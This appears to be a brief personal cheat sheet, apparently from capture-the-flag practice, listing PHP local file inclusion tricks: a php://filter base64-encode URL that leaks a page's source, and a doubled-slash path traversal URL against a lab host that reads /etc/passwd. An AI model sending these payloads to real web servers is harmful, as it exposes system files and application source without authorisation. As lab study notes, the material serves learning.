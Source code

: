 # PHP Wrappers


- php://filter 
```
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
```

- path trasversal double //

http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//..//etc/passwd
